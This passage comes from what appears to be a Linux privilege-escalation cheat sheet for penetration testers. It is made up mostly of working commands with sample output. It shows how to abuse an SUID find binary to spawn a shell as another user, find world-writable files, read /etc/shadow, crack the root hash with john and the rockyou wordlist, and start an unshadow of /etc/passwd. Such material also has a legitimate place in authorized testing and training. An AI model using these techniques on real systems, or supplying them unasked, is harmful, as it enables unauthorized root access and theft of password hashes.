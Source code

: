 ##### Taking advantage of SUID files
- Some administrators will set the SUID bit manually to allow certain programs to be run as them. 
- Lets say you're a system administrator and a non-privileged user wants to program that requires it to be run with higher privileges. 
- They can set the SUID bit, then the non-privileged user can execute the program without having any extra account permissions set.
- See who a command is running as:
````
$ id
uid=1000(ice-wzl) gid=1000(ice-wzl) groups=1000(ice-wzl) <--cmd output
touch foo
find foo -exec whoami \;
igor <--command output (now get shell as igor)
find foo -exec /bin/bash -p \;
$ id
uid=1000(ice-wzl) gid=1000(ice-wzl) euid=1001(igor)
````
### Custom Binarys
- Cross reference a list of standard binaries on a linux system with the ones you see, admins will add their own sometimes 
````
strings system-control
````
#### File Systems
- Use the following command to check for unmounted file systems 
````
cat /etc/fstab
````
#### World Writeable 
- Files on the system with permissions that can be modifiled by any user on the system
````
find / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2>/dev/null | grep -v root
````
- World writable directories for root
````
find / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2>/dev/null | grep root
````
- World writable files
````
find / \( -wholename '/home/homedir/*' -prune -o -wholename '/proc/*' -prune \) -o \( -type f -perm -0002 \) -exec ls -l '{}' ';' 2>/dev/null
````
### Weak File Permissions
#### Readable shadow
```
ls -l /etc/shadow
cat /etc/shadow
```
- A users password hash (if they have one) can be found between the first and second (:) of each line.
- Save the root user's hash to a file called hash.txt on your kali machine and use john to crack it.
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
- Switch to the root user
```
su root
```
##### Unshadow method 
````
cat /etc/passwd > passwd.txt
````